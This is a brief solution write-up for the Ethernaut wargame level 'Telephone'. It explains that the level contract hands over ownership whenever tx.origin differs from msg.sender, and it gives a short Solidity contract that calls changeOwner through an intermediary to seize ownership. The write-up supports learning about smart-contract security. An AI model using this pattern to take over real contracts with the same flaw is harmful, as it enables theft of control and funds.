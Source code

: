 # Level 4: [Telephone](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)

## Level objectives:
1. Claim ownership.

## Analysis (lol)
- The contract sets its `owner` variable in the constructor.
- In the `changeOwner(address _owner)` function, if the `tx.origin` != `msg.sender`, `_owner`
becomes the owner.
- `msg.sender` gives the direct sender of the message. A -> B -> C. In C, msg.sender is B. While
tx.origin is A.

## Steps:
- Use a contract to call the `changeOwner()` function with the argument = your addr.
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Telephone {
    function changeOwner(address) external;
}

contract AttackTelephone {
    Telephone victim = Telephone(0xe90758C679ab7161FD26e22e4BaC18aAE87abF9d);

    function attackTele(address _owner) public {
        victim.changeOwner(_owner);
    }
}
```
